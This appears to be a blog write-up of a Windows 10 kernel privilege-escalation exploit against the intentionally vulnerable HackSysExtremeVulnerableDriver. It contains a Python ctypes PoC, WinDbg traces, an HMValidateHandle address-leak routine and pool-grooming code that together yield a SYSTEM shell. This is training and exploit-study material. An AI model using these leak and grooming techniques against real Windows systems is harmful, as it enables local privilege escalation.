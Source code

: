 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver Bitmap UAF
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


>[Analysis Environment]  
>guest machine: Windows 10 1607 jul x64  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Save this code as python script file.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*8 + "B"*8
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)
```

Let's trigger the vulnerability.
```
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x0000000001080E18
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere->What: 0x4141414141414141
[+] UserWriteWhatWhere->Where: 0x4242424242424242
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```
Well, the trigger work fine.

In Win10 1703, Microsoft nulled the pKernelAddress in the GDI_CELL struct killing the old infoleak, review the last challenge,
it is the key point for our address to get pvscan0 Addr.
```
class GDICELL64(Structure):
    _fields_ = [("pKernelAddress", c_void_p),
                ("wProcessId", c_ushort), 
                ("wCount", c_ushort),
                ("wUpper", c_ushort),
                ("wType", c_ushort),
                ("pUserAddress", c_void_p)]
```


## 0x002 Exploit it

Luckily, there is another method to exploit Win10 1703. First, we should get the HMValidateHandle Addr, this is necssaary. Don't be afraid, it is painless.

HmValidateHandle is a very interesting function as we can provide it with a handle to a Window object and it will return the pointer to the user mapped tagWND object on the Desktop Heap, isn't that useful!

We may get the Addr of user32.IsMenu method, then, try to find out . 
```
kd> u user32!IsMenu
USER32!IsMenu:
00007fff`17d489e0 4883ec28        sub     rsp,28h
00007fff`17d489e4 b202            mov     dl,2
00007fff`17d489e6 e805380000      call    USER32!HMValidateHandle (00007fff`17d4c1f0)
00007fff`17d489eb 33c9            xor     ecx,ecx
00007fff`17d489ed 4885c0          test    rax,rax
00007fff`17d489f0 0f95c1          setne   cl
00007fff`17d489f3 8bc1            mov     eax,ecx
00007fff`17d489f5 4883c428        add     rsp,28h
```
Pay attention, after first 0xe8 byte opcode may be the Pointer to HMValidateHandle offset.

Try to compare with 0xe8 for every bytes after the user32.IsMenu method.
```
def findHMValidateHandle():
	global pHMValidateHandle

	kernel32.LoadLibraryA.restype = HMODULE
	hUser32 = kernel32.LoadLibraryA("user32.dll")

	kernel32.GetProcAddress.restype = c_ulonglong
	kernel32.GetProcAddress.argtypes = (HMODULE,LPCSTR)
	pIsMenu = kernel32.GetProcAddress(hUser32,"IsMenu")
	debug_print("[>] Locating HMValidateHandle()")
	debug_print("\t[+] user32.IsMenu: 0x%X" % pIsMenu)

	offset = 0
	pHMValidateHandle_offset = 0
	while(offset < 0x100):
		byte = cast(pIsMenu + offset, POINTER(c_byte))
		# if byte == 0xE8(232 - 128 - 128 = -24)
		if byte.contents.value == -24:
			pHMValidateHandle_offset = pIsMenu + offset + 1
			break;
		offset = offset + 1
	debug_print("\t[+] Pointer to HMValidateHandle offset: 0x%X" % pHMValidateHandle_offset)
	
	HMValidateHandle_offset = (cast(pHMValidateHandle_offset, POINTER(c_long))).contents.value
	debug_print("\t[+] HMValidateHandle offset: 0x%X" % HMValidateHandle_offset)

	# Add 0xb because relative offset of call starts from next instruction after call, which is 0xb bytes from start of user32.IsMenu
	pHMValidateHandle = pIsMenu + HMValidateHandle_offset + 0xb
	debug_print("\t[+] HMValidateHandle pointer: 0x%X" % pHMValidateHandle)
```

Next step, allocate a large Window menu name, free it and then allocate our Bitmap which will reuse the free'd memory, because the Window menu name (lpszMenuName) is allocated in the same Kernel pool as our bitmap. if we make the menu name larger than 4kb it ends up in the large pool which has low'ish entropy making this UAF style leak 100% reliable.

How to ensure that our predictions are completely correct？

Well, we may try to compare the lpszMenuName of reuse block with the previous freed block. Therefore, the kernelAddr of Bitmap objects is fully predictable.
```
def alloc_free_windows():
	global classNumber

	previous_entry = 0

	while (1):
		plpszMenuName = allocate_free_window()
		if previous_entry == plpszMenuName:
			return plpszMenuName
		previous_entry = plpszMenuName
		classNumber = classNumber + 1
```

Now, we only need to do the same jobs of last challenge, then, I successfully got a system cmd.
![](/assets/img/exploit/2018-08-10-hacksys-extreme-vulnerable-driver-bitmapnecromancy/0x001.png)